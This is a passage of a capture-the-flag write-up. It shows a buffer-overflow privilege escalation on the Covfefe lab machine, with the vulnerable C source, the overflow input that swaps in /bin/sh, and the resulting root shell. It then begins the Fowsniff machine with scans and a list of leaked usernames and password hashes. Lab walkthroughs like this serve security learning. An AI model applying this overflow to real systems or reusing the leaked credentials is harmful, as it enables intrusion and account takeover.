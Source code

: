 6. System Enumeration: running `linpeas` found that we have access to /root directory but we can't read the flag (we are not the root), but we can see read_message.c and also found read_message binary with SUID, so since we can read the source code it may mean that we can run for buffer overflow against it to gain root.

7. Buffer Overflow: We need first to read the code to understand what dose it do, we can transfer it to our local machine and use gdb, in our case by looking the code it's self we can un derstand how to break it:
```
int main(int argc, char *argv[]) {
char program[] = "/usr/local/sbin/message";
char buf[20];
char authorized[] = "Simon";
```
In that lines there is a `buf` variable which is in the size of 20 chars, the authorized is Simon and later it used to check the value from the user input if it match.
```
printf("What is your name?\n");
gets(buf);
since gets have no bouderies we can exploit it
if (!strncmp(authorized, buf, 5)) {
printf("Hello %s! Here is your message:\n\n", buf);
// This is safe as the user can't mess with the binary location:
execve(program, NULL, NULL);
```
The `execve` is used to run binary file, which in our case should be `/usr/local/sbin/message`, since the matching on that code used for the five first chars we can overflow the `buf` to
contain more then 20 chars and after that overwrite the program value with another binary value, in my case `/bin/sh`.

8. Privalge Escalation: running the program with the values more then 20 chars and insert /bin/sh to gain shell as root:
```
simon@covfefe:~$ read_message
What is your name?
Simonnnnnnnnnnnnnnnn/bin/sh
Hello Simonnnnnnnnnnnnnnnn/bin/sh! Here is your message:
# id
uid=1000(simon) gid=1000(simon) euid=0(root) groups=1000(simon),24(cdrom),25(floppy
),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

### Fowsniff

1. Enumeration: running full port scan with `rustscan` found that only 22,80,110,143 are open, so run `nmap` and found that none of the port look like interesting, so go against the web with `webenum` found nothing but on the index.html page found the following which give clue what to do next:
```
Fowsniff's internal system suffered a data breach that resulted in the exposure of employee usernames and passwords.
```
This lead us to run google search for `Fowsniff` since it tell us that this system are exposure data, so with just a luck, you will find pastbin page that contain the following two links:
- https://raw.githubusercontent.com/berzerk0/Fowsniff/main/fowsniff.txt
- https://web.archive.org/web/20200920053052/https://pastebin.com/NrAqVeeX
By going to this link we find users and passwords:
```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```